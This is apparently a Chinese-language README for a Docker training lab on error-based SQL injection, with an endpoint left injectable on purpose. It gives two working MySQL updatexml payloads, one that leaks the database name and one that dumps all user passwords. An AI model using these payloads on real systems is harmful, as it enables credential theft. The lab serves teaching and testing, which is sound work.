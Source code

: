 # 报错注入

## 原理
在某些情况下，SQL语句运行出错时错误信息会显示到前端页面上，某些数据库函数的错误信息里会包含数据信息，攻击者可通过构造特定的SQL语句，将要窃取的数据通过报错信息泄露出来。

## 环境说明

启动环境:
```bash
docker-compose up -d
```
访问 6080 端口
![](./assets/env.png)

环境实现了一个简单的数据库查询功能，`/query_vul` API 存在 SQL 注入漏洞，并且会把 SQL 错误信息直接返回给前端, `/query` 接口不存在 SQL 注入问题。
![](./assets/code.png)

获取数据库名称
```
admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```
![](./assets/get_db.png)

使用报错注入获取数据库中用户的密码
```
admin' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1)%23
```
![](./assets/get_pass.png)
